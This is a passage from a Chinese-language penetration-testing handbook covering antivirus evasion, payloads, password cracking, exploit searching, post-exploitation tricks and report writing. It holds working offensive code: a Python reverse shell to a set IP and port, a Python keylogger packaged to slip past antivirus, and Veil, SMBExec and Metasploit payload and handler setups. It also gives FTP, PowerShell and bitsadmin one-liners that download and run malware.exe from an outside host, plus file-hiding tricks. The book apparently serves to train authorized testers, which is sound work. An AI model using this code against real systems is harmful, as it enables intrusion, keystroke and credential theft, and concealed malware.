在这种情况下，我成功识别出了 IDS 特征码查找的内容。它查找的是应用程序名称和所有者。


**图 129 - 识别触发杀毒软件的字符串**

使用 HxD，我们可以覆盖这些值并将可执行文件保存为新文件。


**图 130 - 修改特征码以绕过杀毒软件**

我用全 `A` 覆盖了这些值，并将文件保存为 `wce2.exe`。幸运的是，此处的特征码并非二进制可执行代码的一部分，而是应用程序输出的一部分。让我们把样本拿到杀毒软件测试机上再次扫描。


**图 131 - 成功绕过杀毒软件扫描**

扫描后，杀毒软件不再检测到该文件，且应用程序仍能完美运行。值得注意的是，这之所以奏效，是因为我们修改的值不影响可执行文件的执行。如果特征码基于无法修改的代码，我们就无法使用此技巧。我只是想演示杀毒软件的一些弱点以及绕过它们的概念性方法。


### Python 是你的最佳伙伴

我用 Python 创建大多数漏洞利用代码和工具。Python 效果极佳，原因有几点。首先，应用程序白名单通常允许运行 Python 文件。其次，你可以很容易地添加随机性以绕过任何特征码。第三，使用 `py2exe` 等工具可将脚本转换为独立可执行文件。

#### Python Shell

看了 Dave Kennedy 2012 年在 BSides 的演讲 ([`www.trustedsec.com/files/BSIDESLV_Secret_Pentesting_Techniques.pdf`](http://www.trustedsec.com/files/BSIDESLV_Secret_Pentesting_Techniques.pdf)) 后，我开始走上用 Python 创建恶意载荷的道路。最简单的例子是创建一个 Python Shell 并用 `py2exe` 打包。

```python
#!/usr/bin/python

import socket, subprocess

HOST = '192.168.10.100'
PORT = 5151

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('[*] Connection Established!')

while 1:
    data = s.recv(1024)
    if data == 'quit': break
    proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    stdout_value = proc.stdout.read() + proc.stderr.read()
    s.send(stdout_value)

s.close()
```

这段代码执行时，会向 `192.168.10.100` 反弹一个 Shell，我在该主机上用 netcat 监听 5151 端口。这个反向 Shell 将给我提供目标主机的命令行访问权限。使用 `pyinstaller`，我们可以将 Python 文件转换为可执行文件。

```
C:\python27\python.exe C:\utils\pyinstaller-2.0\pyinstaller.py --out=C:\shell\ --noconsole --onefile C:\shell\shell.py
```

同样，如果你尝试用杀毒软件扫描该文件，它不会被检测到。

#### Python 键盘记录器[²⁹]

每个人使用不同类型的键盘记录器，我的目标是开发一种最可能被白名单应用程序列表接受且能在杀毒软件下隐蔽运行的工具。

下面是让 Python 开始记录所有按键的简单代码。

```python
import pyHook, pythoncom, sys, logging

file_log = 'C:\\systemlog.txt'

def OnKeyboardEvent(event):
    logging.basicConfig(filename=file_log, level=logging.DEBUG, format='%(message)s')
    chr(event.Ascii)
    logging.log(10, chr(event.Ascii))
    return True

hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown = OnKeyboardEvent
hooks_manager.HookKeyboard()
pythoncom.PumpMessages()
```

这是我的 `setup.py` 文件：

```python
from distutils.core import setup
import py2exe

setup(options = {'py2exe': {'bundle_files': 1, 'compressed': True}},
      windows = [{'script': "logger.py"}],
      zipfile = None,
)
```

使用 `py2exe`，我将通过以下命令把 Python 脚本转换为可执行文件：

```
python.exe setup.py install
python.exe setup.py py2exe
```

现在我得到了一个键盘记录器的可执行二进制文件，它记录所有按键并将日志存储到 `C:\systemlog.txt`。非常简单易行，且杀毒软件从未检测到它。如果需要，你可以添加一些随机性以确保不被特征码或哈希匹配检测到。

### Veil 示例 (Kali Linux)


## Veil Payload Generator

Veil 是由 Christopher Truncer 创建的用于绕过杀毒软件的 Payload 生成器。该工具使用多种不同的方法来规避 AV，但最著名的是将 Meterpreter shell 转换为 Python，并将其封装在 `py2exe`/`pyinstaller` 中。这样生成的可执行文件可以绕过许多白名单工具和 AV。这是因为 Python 通常是被批准的白名单应用程序，并且可以轻松编码以绕过 AV。使用 Veil 的方法有很多种，但我将介绍最通用的一种。

### 创建混淆的反向 Meterpreter 可执行文件：

1.  `cd /opt/Veil`
2.  `./Veil.py`
3.  选择 MeterHTTPSContained payload：
    *   `use 20`
4.  与 Metasploit 一样，我们接下来需要设置 `LHOST` 和 `LPORT`。在本例中，我的攻击者系统是 `192.168.75.131`，`LPORT` 将是 `443`（以模仿 SSL）。
    *   `set LHOST 192.168.75.131`
    *   `set LPORT 443`
5.  `generate`


如前所述，我们希望将 payload 封装在 Python 中以帮助规避检测。我们可以通过配置以下命令来完成此操作：

1.  选择 Pyinstaller
    *   `1`


可执行文件将位于 `/root/veil-output/compiled/` 文件夹中。不要将此文件上传到 Virus Total 这类网站，因为这可能会在你的行动开始前就向 AV 预警，但你应该使用本地的 AV 实例进行验证，以确保它们不会触发任何特征码。这种方法目前尚未让我失手，应该成为你武器库的一部分。

## SMBExec (Kali Linux)

SMBExec 是由 brav0hax 开发的工具（[`github.com/brav0hax/smbexec`](https://github.com/brav0hax/smbexec)），包含许多不同的功能。在本书中，我们曾用该工具从域控制器提取哈希值，但它也可用于枚举共享、验证登录、禁用 UAC，以及创建混淆的 Meterpreter 可执行文件。Brav0hax 利用多种不同的混淆技术，包括随机化和使用原生 C 语言编译以绕过 AV（请阅读 `smbexec.sh` 的源代码）。这就是我们将用来创建反向 shell 的方法。

### 创建混淆的反向 Meterpreter 可执行文件：

1.  `cd /opt/smbexec`
2.  `./smbexec.sh`
3.  使用以下命令选择 System Access：
    *   `2`
4.  选择 Create an executable and rc script
    *   `2`
5.  选择 `windows/meterpreter/reverse_https`
    *   `2`
6.  输入你的本地主机和端口
    *   `172.16.139.209`
    *   `443`

SMBExec 完成并退出应用程序后，会在同一目录下创建一个新文件夹。该文件夹遵循类似的时间戳命名格式。在该文件夹内，你将看到 `backdoor.exe`，这就是你的混淆反向 HTTPS Meterpreter 可执行文件。

```
root@kali:/opt/smbexec/2013-12-23-1425-smbexec# ls -alh
total 128K
drwxr-xr-x 2 root root 4.0K Dec 29 18:28 .
drwxr-xr-x 10 root root 4.0K Dec 23 14:44 ..
-rwxr-xr-x 1 root root 110K Dec 23 14:28 backdoor.exe
-rw-r--r-- 1 root root 283 Dec 23 14:28 metasetup.rc
-rw-r--r-- 1 root root 92 Dec 23 14:28 sha1-backdoor.hash
```

在同一文件夹中，你还将看到 `metasetup.rc` 脚本。RC 脚本将在本书后面讨论，但如果你查看该文件，会看到类似于下面的代码：

```
spool /opt/smbexec/2013-12-23-1425-smbexec/msfoutput-1425.txt
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 172.16.139.209
set LPORT 443
set SessionCommunicationTimeout 600
set ExitOnSession false
set InitialAutoRunScript migrate -f
exploit -j -z
```

这是一个自动配置并运行你刚生成的 payload 的反向处理器的脚本。它还添加了设置超时和自动迁移 PID 等命令。运行 RC 脚本的命令如下：

*   `msfconsole -r metasetup.rc`


如果你正在对抗杀毒软件，这应该能让你很好地了解从何处入手。你最不希望看到的是 AV 阻止你攻破一个你可能已有漏洞利用代码的目标主机。虽然有许多不同的规避 AV 技术，这并非详尽列表，但能让你了解如何着手。

渗透测试的核心在于尝试不同的工具、技术和战术，以找到在特定环境中行之有效的方法。请记住，不要将你的可执行文件提交给 Virus Total 之类的仓库，因为这会大幅缩短你的可执行文件的生命周期。


## 杂项渗透测试技巧

本节收集了其他有助于渗透测试但未在别处归类的内容。我将讨论一些关于破解密码哈希、搜索漏洞以及我使用的一些快捷方式的技巧和窍门。


### 密码破解

有许多不同的密码破解工具，我将重点介绍我使用的两个主要工具。这两个工具是 John the Ripper (JtR) 和 oclHashcat。它们都是优秀的密码破解工具。

在讨论不同的密码破解器之前，重要的是要确保你理解基本定义。为了实现高效的密码破解过程，通常需要配置的三个要素是定义字典、规则和哈希算法。

#### 字典

这正如其名。它们是包含明文密码列表的文件。密码破解软件会尝试对这些密码中的每一个进行哈希运算，并查看是否与你试图破解的哈希值匹配。

我通常喜欢从之前的密码泄露事件中获取字典，并结合你正在对付的组织类型进行整合。例如，如果你要从域控制器破解 NTLM 哈希，请确保了解他们的密码策略。如果他们要求最少 8 个字符，尝试 4 或 5 位的密码就毫无意义。

以下是我最喜欢的一些字典：

**列表名称：** RockYou
**详情：** 2009 年来自一个社交游戏和广告网站的泄露。这是一个很好的入门列表，因为它体积不太大，且包含大量常见密码，成功率不错。
**下载链接：** `http://downloads.skullsecurity.org/passwords/rock-you.txt.bz2`

**列表名称：** Crackstation-human-only
**详情：** 从各种网站数据库泄露的真实人类密码。该列表中约有 6400 万个密码。
**下载链接：** `http://bit.ly/1cRS62E`

**列表名称：** m3g9tr0n_Passwords_WordList_CLEANED^[30]
**详情：** 包含 1.22 亿个密码的列表
**下载链接：** `http://bit.ly/KrTcHF`

#### 规则

规则定义是否需要向字典中注入任何修改。描述规则最好的方式是通过一个易于理解的示例。我们可以使用 KoreLogicRulesAppendYears^[31] 规则集，其内容如下：

```
cAz”19[0-9][0-9]”
Az”19[0-9][0-9]”
cAz”20[01][0-9]”
Az”20[01][0-9]”
```

它会将 1949 年到 2019 年的年份追加到每个密码后面。因此，如果密码列表中包含单词 "hacker"，它将尝试破解从 `hacker1949` 一直到 `hacker2019` 的哈希值。请记住，规则越复杂，遍历字典中所有单词所需的时间就越长。

#### 哈希算法

哈希算法用于生成密码哈希。这些非常重要，因为如果你选择了错误的算法，要么无法运行，要么无法破解。例如，如果我们为 SHA1 哈希选择 MD5 算法，破解工具将找不到任何可破解的哈希值并立即退出。

现在我们已经基本了解了不同的破解配置，让我们来对比一下 John the Ripper 和 oclHashcat。


我过去经常使用 JtR，但由于 oclHashcat 的 GPU 支持，我已经有一段时间没用了。不过 JtR Jumbo 现在确实支持 CUDA 和 OpenCL。以下是 JtR 哈希格式列表，可帮助您识别正在破解的类型：[`pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats`](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)。

### 破解 MD5 哈希

假设您能够攻破一台 \*nix 系统，或者可能是一个装满密码哈希的数据库。您最有可能遇到 MD5 或 SHA 哈希，但在以下示例中，我们假设它们是非加盐的 MD5 哈希。如果您想破解标准 MD5 哈希，基本命令是：

*   `john -format=raw-md5 -pot=./list.pot md5list.txt`

这将告诉 John the Ripper 在 `md5list.txt` 文件中查找 MD5 哈希，并将破解出的密码写入 `list.pot` 文件。

```
root@kali:~# john —format=raw-md5 —pot=./list.pot md5list.txt

Loaded 3 password hashes with no different salts (Raw MD5 [128/128 SSE2])

test (test)

password (user)

woot (hacker)

guesses: 3 time: 0:00:00:01 DONE (Sun Dec 29 18:32:12 2013)
```

如果您使用的是 JtR Jumbo 包并想利用 GPU 处理：

```
john —format=raw-md5-opencl —wordlist=./Wordlists/all.lst —rules: Single md5list.txt
```

以下是关于使用 JtR 的其他资源：[`blog.thireus.com/cracking-story-how-i-cracked-over-122-million-sha1-and-md5-hashed-passwords`](http://blog.thireus.com/cracking-story-how-i-cracked-over-122-million-sha1-and-md5-hashed-passwords)。


老实说，这是我破解密码时最常用的工具。众所周知，图形处理单元（GPU）非常适合破解密码，因为它们利用许多不同的内核并行工作。使用 GPU 与 CPU 相比优势显著，这可以通过 oclHashcat 的使用来证明。

在以下示例中，我将介绍破解 WPAv2 和 NTLMv2。这些是我遇到的最常见的哈希类型，实际上也是任何其他类型哈希的基础。如果您想查看 oclHashcat 支持的所有不同哈希类型，请访问他们的网站：[`hashcat.net/oclhashcat/`](http://hashcat.net/oclhashcat/)。

### 破解 WPAv2

在本书开头，我讨论了如何捕获破解密码所需的 WPAv2 握手包。捕获的输出是一个 `.hccap` 文件。这是 oclHashcat 支持的用于暴力破解 WPA 哈希密码的文件格式。

在以下示例中，我将在我的 Windows 主机上使用配备 GeForce GTX 680 的 oclHashcat。虽然我确实更喜欢使用 ATI Radeon 显卡，但实际上对于这个示例来说，区别不大。要开始破解密码，我将使用以下命令：

*   `cudaHashcat-plus64.exe -m 2500 out.hccap list\\rockyou.txt`


**图 134 - oclHashcat 示例**

这是一个非常直接的示例，意思是针对 `out.hccap` 文件破解 WPAv2 哈希，并使用来自 `rockyou.txt` 的密码列表。

### 破解 NTLMv2

如果您攻破了一台 Windows 主机，或者可能是一个域控制器，您将不得不破解 NTLM 哈希。您可以随时尝试针对 LM 哈希，但由于这越来越少见，我们将坚持使用 NTLM 哈希。

在以下示例中，我们获取一个 NTLM 哈希列表，并使用 rockyou 密码列表。


**图 135 - oclHashcat NTLM**

从上面的示例中，有 3 个唯一密码，但 oclHashcat 只能破解其中两个。为了增加机会，我将添加 passwordspro 规则集来配合 rockyou 密码列表。如果您想更深入地了解这些规则，请尝试从 oclHashcat 页面开始：[`hashcat.net/wiki/doku.php?id=rule_based_attack`](http://hashcat.net/wiki/doku.php?id=rule_based_attack)。


**图 136 - 带规则的 oclHashcat**

使用规则实际上并没有找到第 3 个哈希的密码。在更大的密码哈希列表中，这肯定会找到更多密码，但在这种情况下只能找到 3 个密码中的 2 个。为了进一步增加机会，我将尝试一个大得多的密码列表。这当然会增加运行此作业所需的时间，但如果能解出一个密码，就值得。所以我将使用的命令是：

*   `cudaHashcat-plus64.exe -m 1000 NTLM.txt list\\realhuman.txt -r rules\\passwordspro.rule`


**图 137 - 使用不同密码列表的 oclHashcat**

正如您从结果中看到的，新的密码列表和规则集恢复了第 3 个密码。仅通过尝试不同的密码列表和规则集，您就可以快速发现什么有效，什么只是运行时间太长。这当然都基于您拥有什么类型的 GPU、密码列表有多长以及规则集的复杂程度。

无论您想破解 MD5 哈希、MSSQL 哈希、SHA1 哈希还是其他哈希，都可以通过更改 `-m` 参数来运行相同的查询。有关 oclHashcat 接受和破解的哈希的完整列表，请访问 [`hashcat.net/wiki/doku.php?id=example_hashes`](http://hashcat.net/wiki/doku.php?id=example_hashes)。

### 更聪明地破解

通常，我会使用配备 7990 GPU 的 oclHashcat，配合一个优秀的密码列表和规则集来破解哈希。这是因为我经常只是寻找弱密码作为概念验证，或者我只需要破解几个密码来进入 OWA 账户。有时客户会特别要求您尽可能多地破解哈希。

有两个演示文稿我强烈建议您观看/研究。第一个称为“Cracking Corporate Passwords - Exploiting Password Policy Weaknesses - Minga/Rick Redman”。

[`www.irongeek.com/i.php?page=videos/derbycon3/1301-cracking-corporate-passwords-exploiting-password-policy-weaknesses-minga-rick-redman`](http://www.irongeek.com/i.php?page=videos/derbycon3/1301-cracking-corporate-passwords-exploiting-password-policy-weaknesses-minga-rick-redman)。该演示文稿深入探讨了 GPU 变得如此之快，以至于 8 位字符的密码可以在很短的时间内被暴力破解。然后它深入探讨了密码通常遵循基于密码策略的模式。如果密码策略规定您的密码需要一个特殊字符和一个数字，它通常遵循类似的模式。在大多数情况下，您会发现人们会把数字放在末尾，特殊字符放在末尾，通常是感叹号。如果需要大写字母，最有可能是第一个字母。

第二个演示文稿引用了 PACK（密码分析和破解工具包），这是一组实用程序，旨在帮助分析密码列表并通过智能规则生成增强密码破解。这是由我的一位好朋友制作的，您可以在此查看他的演示文稿：[`thesprawl.org/media/research/passwords13-smarter-password-cracking-with-pack.pdf`](http://thesprawl.org/media/research/passwords13-smarter-password-cracking-with-pack.pdf) 和视频：[`www.youtube.com/watch?v=8j6fOAH-Sko`](http://www.youtube.com/watch?v=8j6fOAH-Sko)。

他在他的网站上也有关于如何使用他的工具以及如何以更聪明、更高效的方式破解密码的很好的描述和演练：[`thesprawl.org/projects/pack/`](http://thesprawl.org/projects/pack/)。


作为渗透测试员，很大一部分工作是能够发现应用程序和服务中的漏洞。从 Nmap 扫描、漏洞扫描以及四处探测中，您将识别出这些应用程序和服务的各种版本。


## 利用公开资源查找漏洞利用代码

通常，我会获取 Nmap 服务版本探测和漏洞扫描器的结果，并针对识别出的应用程序版本，查询以下站点/工具以寻找漏洞利用代码：


### Searchsploit

`Searchsploit` 是一个默认的查询工具，它会根据你提供的搜索字符串，在公开已知的漏洞利用代码库中进行搜索。你可以提供部分标题或应用名称来查找漏洞利用代码。这里有大量的漏洞利用代码，其中大多数都附带了可直接运行的代码或脚本。我要强烈建议的一件事是：**务必在实验室环境中测试它们，然后再在生产系统上测试。**

在你的 Kali 主机上，运行 `searchsploit`。


Figure 138 - Searchsploit

以此为例，假设我发现了一个 Joomla 站点，我想查看该应用程序是否存在漏洞。要查询 `searchsploit`，我会构造如下查询：

```bash
searchsploit joomla
```


Figure 139 - Searchsploit Results

仅从一个针对 Joomla 的快速查询，我们目前就有 906 个不同的漏洞。让我们查看其中一个，了解其结构。值得注意的是，结果中的路径是不正确的。所有 `searchsploit` 文件都位于 `/usr/share/exploitdb/` 下。要查看漏洞或漏洞利用代码，请输入以下命令：

```bash
cat /usr/share/exploitdb/platforms/php/webapps/22153.pl
```


Figure 140 - 22153 Perl Joomla Exploit Example

`22153.pl` 是一个 Perl 脚本，用于对特定版本的 Joomla 执行 SQL 注入。如果成功，该 Perl 脚本将返回目标管理员的密码。


### Security Focus BugTraq

Security Focus 的 `BugTraq` 是寻找漏洞和漏洞利用代码的绝佳来源。你可以通过 CVE 编号或按供应商/产品类型搜索漏洞，网址为：[`www.securityfocus.com/bid`](http://www.securityfocus.com/bid)。

在下面的示例中，我正在寻找一些 Adobe ColdFusion 的漏洞利用代码，看起来我找到了一大堆。


Figure 141 - BugTraq


### Exploit-DB

[`www.exploit-db.com/`](http://www.exploit-db.com/)

我真的把这个网站视为传奇站点 `milw0rm` 的替代者，而且这个网站确实已经壮大了。许多研究人员会将他们的漏洞利用代码和研究成果发布到 Exploit-DB，并且该网站支持全文搜索。我建议你花些时间在 Exploit-DB 上，因为它是一个极佳的资源。


Figure 142 - Exploit-DB


### Metasploit Framework

你不能忘记 `Metasploit` 作为寻找漏洞的绝佳资源。

*   在你的 Kali 主机上，在终端中输入：`msfconsole`
*   要查找漏洞利用模块或辅助模块，请输入：`search [what you want to find]`

在下面的示例中，我搜索所有 ColdFusion 模块。


Figure 143 - Search Metasploit


## 实用技巧与脚本

本节专门介绍那些没有固定归类、但能让你的工作更轻松的技巧。


### Metasploit 资源脚本

既然我提倡效率，那么你应该研究一下 Metasploit 的资源脚本（RC 脚本）。这些脚本可以被创建用于加速你可能执行的常见任务。在此示例中，我将创建一个脚本来使用 `PSExec` 模块，利用 `smart_migrate` 将 Meterpreter 进程迁移到另一个 PID，并设置攻击所需的所有其他填充信息。

我们将以下代码保存到 `demo.rc`：

*   `use exploit/windows/smb/psexec`
*   `set rhost 192.168.10.10`
*   `set smbuser Administrator`
*   `set smbpass ____________hash____________ or password`
*   `set smbdomain ______domain______`
*   `set payload windows/meterpreter/reverse_tcp`
*   `set AutoRunScript post/windows/manage/smart_migrate`
*   `setg lport 443`
*   `setg lhost 192.168.10.3`

要运行该脚本，从 Shell 提示符下执行：

*   `msfconsole -r /root/demo.rc`


Figure 144 - RC Scripts

脚本加载后，你只需输入：`exploit`。该脚本的作用是：启动 Metasploit，使用 PSExec 对 `192.168.10.10` 进行认证，投放并执行 Meterpreter Payload，并让目标主机反向连接回你的主机以获取一个完整的 Meterpreter Shell。

这是一种准备脚本、漏洞利用代码，尤其是处理器（Handler）的更快方法。我喜欢添加自动迁移或向漏洞利用代码添加自定义 Payload 等功能。


### 绕过 UAC

有时你可能拥有一个管理员账户和一个 Meterpreter 会话，但无法通过 `getsystem` 命令提权至 SYSTEM 权限。这很可能是因为用户账户控制（UAC）保护阻止了你运行 `getsystem` 命令。为了绕过此限制，David Kennedy 在 Metasploit 中增加了绕过 UAC 的功能，做得非常出色。^(32)

在下一个示例中，我假设你已经拥有一个 Meterpreter 会话，并且是本地管理员。首先，你需要输入命令：

*   `run bypassuac`

这将导致另一个 Meterpreter 会话被创建。在本例中，它创建了会话 2。我将把第一个会话放入后台，以免丢失该会话。这通过以下命令完成：

*   `background`
*   `session -i 2`

现在，如果你尝试 `getsystem` 模块，你将成为 SYSTEM 权限。


Figure 145 - Bypassing UAC


### 利用 CNAME 绕过 Web 代理过滤

偶尔我会遇到公司为所有互联网流量主动使用 Web 代理的情况。任何未分类的内容都会被阻止，我似乎无法让任何反向 Shell 绕过他们的过滤器。在这些罕见的情况下，你可以采取一些措施来提高成功率。对于我专门为测试购买的“同形异义域名”，我会在该域名上设置一个简单的 CNAME（规范名称）记录，指向我所伪装的原始域名。我会让它保留几天到几周，然后再开始测试。为什么？因为该站点会被许多不同的系统自动爬取，当爬虫看到配置为指向真实站点的 CNAME 时，它们会假设该域名是由该公司购买的，并将该域名归类为同一类已批准的域名。一旦测试开始，只需移除 CNAME 并配置实际恶意服务器的 IP 即可。


### 利用 FTP 脚本传输二进制文件

这是一个由来已久的老技巧。你拥有对 Windows 主机的 Shell 访问权限，但它不是交互式 Shell。如何将二进制文件传到 XP 主机上？一种方法是将 FTP 命令写入文件，并使用 `-s` 开关从文件读取命令并执行。如果你只有类似 Web PHP Shell 的东西而无法下载文件，这是一个很好的方法。我过去常用这种方法将 Meterpreter 可执行文件传到主机上，然后执行它以获得对主机的额外访问权限。

```cmd
cmd /C "echo open 192.168.100.100 > ftp.txt"
cmd /C "echo hacker>> ftp.txt"
cmd /C "echo hacker>> ftp.txt"
cmd /C "echo bin>> ftp.txt"
cmd /C "echo get nc.exe>> ftp.txt"
cmd /C "echo bye>> ftp.txt"
cmd /C "ftp -s:ftp.txt"
```
^(33)


### 备用数据流

如果你需要隐藏文件，备用数据流（ADS）总是一个不错的选择。ADS 是一个非常古老的话题，但在 Windows 7 中略有变化。要快速解释 ADS：

> 备用数据流（ADS）是 Windows NTFS 文件系统中鲜为人知的功能，它提供了将数据放入现有文件和文件夹中而不影响其功能和大小的能力。^(34)

这意味着你可以将文件隐藏在文件内部，且不易被 Windows 资源管理器甚至标准目录列表检测到。Windows 7 还引入了一些更改，阻止了 ADS 攻击。我们必须修改流程以允许将文件隐藏在其他文件中。

让我们演示如何创建和隐藏 ADS。


### ADS 持久化与文件隐藏技术

#### 创建虚拟文件
首先，我们需要创建一个虚拟文件。在本例中，我们将把单词“hi”放入文档 `hi.txt` 中。

```
echo “hi” > hi.txt
```

#### 在备用数据流 (ADS) 中隐藏恶意软件
接下来，我们将把 `malware.exe` 文件隐藏到刚才创建的文本文件中。

```
type C:\Users\Workshop\Desktop\malware.exe > hi.txt:malware.exe
```

#### 验证 ADS 内容
如果我们尝试读取 `hi.txt` 文件，只会读取到文件中的内容，而不会读取到恶意软件。

```
type hi.txt
```

#### 创建符号链接 (Windows 7+)
同样，由于 Windows 7 进行了更改，普通的 ADS 命令不再生效。我们需要创建一个指向该文件的符号链接。该符号链接文件将被称为 `malwareSymlink.exe`。

```
mklink malwareSymlink.exe C:\Users\Workshop\Desktop\hi.txt:malware.exe
```

#### 隐藏符号链接
因为符号链接会出现在所有的目录列表和 Windows 资源管理器中，我们需要在该文件上启用隐藏属性。这将使其在大多数普通用户设置中不可见。

```
attrib +h /L malwareSymlink.exe
```

如果我们查看目录列表，`malwareSymlink.exe` 将不存在，但如果我们执行该符号链接文件，恶意软件将会执行。


有更好的方法来维持持久化，但 ADS 只是在可能被主动调查的系统上隐藏的另一种方式。

#### 使用 `\?\` 技巧隐藏文件
Mark Baggett 展示了一个很酷的技巧，可以通过使用 `\\?\` 技巧来隐藏或锁定文件。最好通过一个示例来了解其工作原理及其用处。

##### 创建受限目录
首先我们在 `C:\tmp` 下创建一个文件夹。我们尝试创建名为 “..” 的文件夹，这在默认情况下 Windows 是不允许的。

```
mkdir \\?\c:\tmp\"..
```

##### 将恶意软件移入目录
接下来我们将恶意软件文件移入该目录。

```
move malware.exe "\\?\c:\tmp\.. \
```

如果我们进入 `tmp` 目录，可以看到一个名为 “..” 的文件夹。如果在命令行中尝试进入文件夹 `..`，因为命令 `cd ..` 意味着返回上一级目录，我们将无法进入该目录。

##### 检索恶意软件
我们始终可以使用以下命令从该目录中取出恶意软件：

```
copy "\\?c:\tmp\.. \malware.exe" .
```


如果我们尝试从 Windows 资源管理器中删除、修改或运行该可执行文件，由于文件的位置原因，我们会被拒绝访问。这是一个隐藏文件、备用数据流的绝佳位置，并能使分析师难以弄清你在做什么。


### 文件传输方法 (Windows 7/8)
在 Windows 7 和 8 上，将文件传输到主机的更好方法是使用 `bitsadmin` 或 PowerShell。使用 `bitsadmin` 很棒，因为它用于 Windows 更新并使用 IE 代理设置。如果组织有需要 AD 凭据的 Web 代理，这是一种绕过它的方法。

#### PowerShell
(详情请查看“使用 PowerSploit 进行后渗透”章节)

```
cmd.exe /c "PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.securepla.net/malware.exe','malware.exe');(New-Object -com Shell.Application).ShellExecute('malware.exe')"
```

#### Bitsadmin
```
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://www.securepla.net/malware.exe c:\malware.exe & start malware.exe"
```


## 报告最佳实践

最终交付给客户的报告，才是客户真正关心的东西。在我在这本书中讨论的所有内容中，报告是渗透测试员获得报酬并被邀请再次测试的方式。这绝对是你测试中最重要的方面。你需要能够解释发现、对漏洞进行评级，并向客户解释结果在现实世界中的意义。

如果你曾经让多个渗透测试员评估过你的网络，你会发现报告会因执行测试的人员不同而有所差异。你会发现有些公司只是重新套用漏洞扫描器的报告模板，而另一些公司则提供详尽的报告并提供可复现的步骤。我发现真正缺乏价值的是：报告声称你有 100 个 Apache/PHP 关键发现，但测试人员无法验证这些发现是基于漏洞本身真实存在，还是仅基于横幅版本判断的。

既然报告实际上是你想要如何呈现发现的一种改编，我不会展示我的模板，而是给你一些我多年测试经验总结出的提示和最佳实践。


我过去教学时，会强调报告是成功渗透测试的最重要因素。无论你攻破了 3 台还是 300 台主机都无关紧要，如果你不准确地告诉客户你到底做了什么，或者不帮助客户理解解决这些问题的缓解措施。

如果你想看看示例报告应该是什么样子的，可以参考 Offensive Security 的样本报告。 [`www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf`](http://www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf)


### 关键报告指南

#### 不要提交扫描器报告
*   不要提交重新命名过的 Nexpose 或 Nessus 报告。
    *   我再怎么强调都不为过；请使用你自己的模板并验证你的发现。
    *   绝不要将 Nexpose 或 Nessus 报告作为最终报告交给客户。

#### 统一漏洞评级标准
*   对漏洞进行评级。
    *   确保你找到一种方法来统一对漏洞进行评级。
    *   我建立了自己的矩阵，其中包含来自 NIST、DISA、CVSS 和个人经验的参考，用于设定漏洞评级。
    *   该矩阵包括根据内部/外部发现、是否有可用漏洞利用代码、其系统的普及程度、漏洞利用可能导致的后果以及对 CIA 安全三要素的影响来增加或降低严重程度。
    *   经过我矩阵评估的漏洞将始终具有相同的严重性级别。如果客户询问我如何对漏洞进行评分，我可以引用我的矩阵。

#### 理论发现与实际发现
*   理论发现与实际发现。
    *   我通常不喜欢将发现标记为关键，如果它们只是理论上的，且没有已知的实际漏洞利用方式。这些肯定仍应作为发现报告，但如果我找不到任何攻击主机的途径，我通常会降低其评级。
    *   这有助于客户正确识别哪些发现需要立即关注，哪些可以在常规变更控制窗口期间处理。

#### 解决方案至关重要
*   解决方案与发现同等重要。
    *   如果你使用工具攻破网络，你必须有办法阻止它。
    *   如果你没有解决方案，帮助客户制定缓解策略。

#### 准确评估 Secure Flag/HTTP Only 发现
*   如果 Secure Flag/HTTP Only 发现不构成问题，请勿错误评级。
    *   有些 Cookie 不用于会话令牌，可能不会为攻击者提供任何额外的攻击面。虽然这些仍应报告，但其评级应远低于用于跟踪会话状态的 Cookie。
    *   这只是一个例子，旨在强调确保正确理解漏洞的理念。

#### 验证发现
*   确保漏洞是真实的漏洞。
    *   我收到过多少次渗透测试结果，告诉我我的系统上有 PHP 漏洞利用。这是因为扫描器仅基于版本就提醒他们存在这些关键发现。一些发现称是 PHP CGI 问题或 Apache mod security 问题。问题在于我的服务器并不运行 CGI 脚本，但扫描器仅基于版本就识别出了该问题。请务必确保验证发现是真实的发现。


## 客户反馈与持续成长指南

### 客户反馈

本节最后要强调的是确保从客户那里获取反馈。图表适合管理层查看，但技术人员希望看到大量重现漏洞利用的步骤和程序。同时，将所有原始扫描结果、原始 Burp 结果移交给客户也很重要，我通常还会提供一个 Excel 文件，其中包含发现的漏洞和漏洞的简单列表。Excel 文件使 IT 团队能够轻松勾选哪些发现已修复，哪些仍然有效。

如果你想在渗透测试人员中脱颖而出，尝试寻找方法将自己与其他人区分开来。如果你为大公司做渗透测试，还可以提供一份简单的 OSINT（开源情报）报告，描述从互联网上可以公开发现什么和谁。


### 持续成长路径

最常被问到的问题之一是“接下来该去哪里？”如何在安全行业持续变强，如何提升？所以我尝试为读者提供一份选项清单。我将这部分细分为：主要参会会议、辅助成长的培训课程、技术与非技术书籍阅读、靶场框架、夺旗赛（CTF）活动，以及跟进新闻资讯。


#### 主要安全会议

我从参加主要安全会议开始，因为这是结识他人、了解行业动态的绝佳场所。参会选择非常多，你可以在 InfoSecEvents 找到更完整的列表：[`bit.ly/1cVISnz.I’ll`](http://bit.ly/1cVISnz.I’ll)。以下是我亲身经历推荐的会议及简介：

*   **DefCon** ([`www.defcon.org/`](http://www.defcon.org/)) - 拉斯维加斯举办，费用低于 $200。这是最大的黑客大会，必参加。
*   **DerbyCon** ([`www.derbycon.com/`](http://www.derbycon.com/)) - 肯塔基州举办，费用低于 $200。我最喜欢的部分演讲来自 DerbyCon。
*   **BlackHat** ([`www.blackhat.com/`](http://www.blackhat.com/)) - 拉斯维加斯举办，费用极高。演讲嘉宾阵容强大，更面向企业员工。
*   **Bsides** ([`www.securitybsides.com/`](http://www.securitybsides.com/)) - 通常免费。全国各地都有 Bsides 大会，找到你附近的那场！
*   **ToorCon** ([`toorcon.net/`](http://toorcon.net/)) - 圣地亚哥举办，这是小型会议之一，能结识很多新朋友，大家都很友好。
*   **CanSec** ([`cansecwest.com/`](http://cansecwest.com/)) - 我只参加过 CanSecWest，价格不菲，但技术演讲质量一直很高。
